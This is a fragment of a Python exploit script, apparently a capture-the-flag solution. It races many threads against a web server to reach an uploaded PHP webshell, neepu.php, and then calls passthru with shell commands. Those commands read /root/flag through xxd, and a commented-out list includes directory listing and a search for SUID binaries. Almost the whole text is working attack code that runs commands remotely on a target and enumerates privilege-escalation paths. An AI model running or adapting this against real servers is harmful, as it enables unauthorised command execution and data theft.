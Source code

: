 ```python
        # print(resp.text())

def read(session):
    while True:
        resp = session.get(url + '/neepu.php')
        if resp.status_code == 200:
            fth = "passthru"
            sth = "xxd \"/root/flag\"| xxd -r"
            # sth = ["ls", "ls /", "find / -perm -u=s -type f 2>/dev/null", "xxd \"/root/flag\"| xxd -r"]
            # for i in range(len(sth)):
            #     res = requests.get(url=url + '/neepu.php?_={}&__={}'.format(fth, sth[i]))
            #     print(f'[+]Result{i + 1}:\n' + res.text)
            res = requests.get(url=url + '/neepu.php?_={}&__={}'.format(fth, sth))
            print(res.text)
            event.clear()
        else:
            pass

if __name__=="__main__":
    hack = HackRequests.hackRequests()
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

